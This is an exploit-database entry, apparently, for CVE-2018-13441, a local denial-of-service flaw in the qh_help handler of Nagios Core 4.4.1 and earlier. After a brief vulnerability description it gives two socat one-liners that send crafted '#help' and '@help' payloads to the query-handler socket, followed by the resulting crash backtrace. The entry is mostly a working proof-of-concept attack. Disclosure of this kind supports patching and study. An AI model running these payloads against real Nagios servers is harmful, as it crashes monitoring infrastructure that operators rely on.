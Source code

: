 Exploit Title: Nagios Core qh_help Denial of Service<br>
Date: 2018-07-09<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: https://www.nagios.org/<br>
Software Link: https://www.nagios.org/downloads/nagios-core/<br>
Version: 4.4.1 and earlier<br>
Tested on: 4.4.1<br>
CVE : CVE-2018-13441<br>
<br>
qh_help in Nagios Core version 4.4.1 and earlier is prone to a NULL pointer dereference vulnerability, which allows attacker to cause a local denial-of-service condition by sending a crafted payload to the listening UNIX socket.<br>
<br>
$ echo -ne “#help\0" | socat unix-connect:./poc/nagios.qh -<br>
$ echo -ne “@help\0" | socat unix-connect:./poc/nagios.qh -<br>
<br>
#0 0x554fef in qh_help /home/user/nagioscore/base/query-handler.c:374:7<br>
#1 0x5543db in qh_input /home/user/nagioscore/base/query-handler.c:227:12<br>
#2 0x6fac51 in iobroker_poll /home/user/nagioscore/lib/iobroker.c:353:4<br>
#3 0x5bc334 in event_execution_loop /home/user/nagioscore/base/events.c:1136:12<br>
#4 0x53a503 in main /home/user/nagioscore/base/nagios.c:844:4<br>
#5 0x7f61587ae82f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291<br>
#6 0x42b278 in _start (/home/user/nagioscore/base/nagios+0x42b278)<br>
